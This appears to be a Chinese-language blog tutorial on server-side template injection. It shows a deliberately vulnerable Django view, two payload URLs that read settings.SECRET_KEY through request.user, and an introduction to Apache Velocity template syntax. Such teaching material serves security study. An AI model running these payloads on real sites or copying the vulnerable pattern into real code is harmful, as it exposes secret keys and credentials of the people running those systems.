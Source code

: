 [![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903234158628-1148950140.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903234158628-1148950140.png)

先看存在漏洞的代码：

def view(request, *args, **kwargs):
    template = 'Hello {user}, This is your email: ' + request.GET.get('email')
    return HttpResponse(template.format(user=request.user))

很明显 email 就是注入点，但是条件被限制的很死，很难执行命令，现在拿到的只有有一个和user有关的变量request.user ，这个时候我们就应该在没有应用源码的情况下去寻找框架本身的属性，看这个空框架有什么属性和类之间的引用。

后来发现Django自带的应用 "admin"（也就是Django自带的后台）的models.py中导入了当前网站的配置文件：

[![](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911002243408-1781833415.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911002243408-1781833415.png)

所以可以通过某种方式，找到Django默认应用admin的model，再通过这个model获取settings对象，进而获取数据库账号密码、Web加密密钥等信息。

payload如下：

http://localhost:8000/?email={user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}

http://localhost:8000/?email={user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}

java常见的引擎：FreeMarker， velocity

（以下板块参照自《[CVE-2019-3396 Confluence Velocity SSTI漏洞浅析](https://xz.aliyun.com/t/8135#toc-2)》）

Apache Velocity是一个基于Java的模板引擎，它提供了一个模板语言去引用由Java代码定义的对象。Velocity是Apache基金会旗下的一个开源软件项目，旨在确保Web应用程序在表示层和业务逻辑层之间的隔离（即MVC设计模式）。

**语句标识符**

#用来标识Velocity的脚本语句，包括#set、#if 、#else、#end、#foreach、#end、#include、#parse、#macro等语句。

**变量**

$用来标识一个变量，比如模板文件中为Hello $a，可以获取通过上下文传递的$a

**声明**

set用于声明Velocity脚本变量，变量可以在脚本中声明

#set($a ="velocity")
#set($b=1)
#set($arrayName=["1","2"])

**注释**

单行注释为##，多行注释为成对出现的#* ............. *#

**条件语句**

以if/else为例：

#if($foo<10)
    <strong>1</strong>
#elseif($foo==10)
    <strong>2</strong>
#elseif($bar==6)
    <strong>3</strong>
#else
    <strong>4</strong>
#end
